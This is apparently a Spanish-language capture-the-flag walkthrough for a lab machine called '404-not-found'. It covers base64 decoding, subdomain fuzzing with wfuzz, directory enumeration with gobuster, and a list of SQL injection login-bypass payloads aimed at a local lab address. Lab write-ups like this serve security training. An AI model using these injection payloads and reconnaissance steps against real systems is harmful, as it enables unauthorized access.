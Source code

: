 Tenemos la siguiete cadena en **base64**
```bash
echo "UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu" | base64 -d
Que haces?, mira en la URL.
```

Revisando el codigo fuente tenemos una parte de codigo oculta pero no contiene nada critico
```bash
<!-- Elementos ocultos -->
    <div class="hidden">
        <p>¡Oh! Parece que encontraste algo... o tal vez no.</p>
    <p>Sigue buscando, tal vez te has perdido en la oscuridad...</p>
</div>
```

### Descubrimiento de Subdominios:
```bash
wfuzz -c --hl=9 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.404-not-found.hl" -u 172.17.0.2
```

Tenemos un subdominio:
```bash
000000097:   200        149 L    152 W      2023 Ch     "info"
```

Agregamos ese subdominio a nuestro archivo: **( /etc/hosts )**
```bash
172.17.0.2 info.404-not-found.hl
```

Ingresando a la url tenemos un panel de login para inicio de sesion:
```bash
http://info.404-not-found.hl/
```

Realizando descubrimiento de archivos:
```bash
gobuster dir -u http://info.404-not-found.hl/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,html,js,txt,sh
```

Obtenemos lo siguiente:
```bash
/index.html           (Status: 200) [Size: 2023]
/login.php            (Status: 200) [Size: 29]
/fail.html            (Status: 200) [Size: 1901]
```

Provaremos un ataque de SQLInjection en el panel de incio de sesion:

**Queries** probadas:
```bash
admin'
admin' or 1=1-- -
admin' or '1'='1-- -
admin' or sleep(5)-- -
```
